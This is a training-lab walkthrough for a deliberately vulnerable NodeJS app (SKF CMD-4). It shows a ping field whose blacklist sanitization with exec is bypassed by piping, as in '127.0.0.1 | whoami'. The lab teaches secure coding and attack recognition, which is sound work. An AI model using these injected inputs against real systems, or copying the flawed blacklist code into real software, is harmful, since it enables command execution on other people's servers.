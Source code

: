 # NodeJS - Command Injection 4 (CMD-4)

## Running the app nodeJs

First make sure nodejs and npm are installed on your host machine. After installation, we go to the folder of the lab we want to practice. "i.e /skf-labs/XSS, /skf-labs/RFI/" and run the following commands:

```
$ npm install
```

```
$ npm start
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

When we start the application we can see that we can ping an adress.

![](../../.gitbook/assets/java/CMD4/1.png)

Let's try to ping 127.0.0.1

![](../../.gitbook/assets/java/CMD4/2.png)

We get back the output of the ping command which tell us this might be vulnerable to a command injection.

## Exploitation

Let's try chaining commands

```
127.0.0.1 ; whoami
```

We get nothing back, maybe this application has a blacklist

```javascript
let ip = req.body.text;
ip = ip.replace("`", "");
ip = ip.replace(";", "");
ip = ip.replace("&", "");
exec(`ping -c1 ${ip} > ./ping_output`);
```

We can see in this piece of code the app is removing certain dangerous characters in an attempt to avoid some kind of command injection. Unfortunately there are ways to bypass this blacklist approach. Let's try piping the commands:

```
127.0.0.1 | whoami
```

![](../../.gitbook/assets/java/CMD4/3.png)

And we have a command injection!

## Additional sources

{% embed url="https://owasp.org/www-community/attacks/Command_Injection" %}

{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html" %}
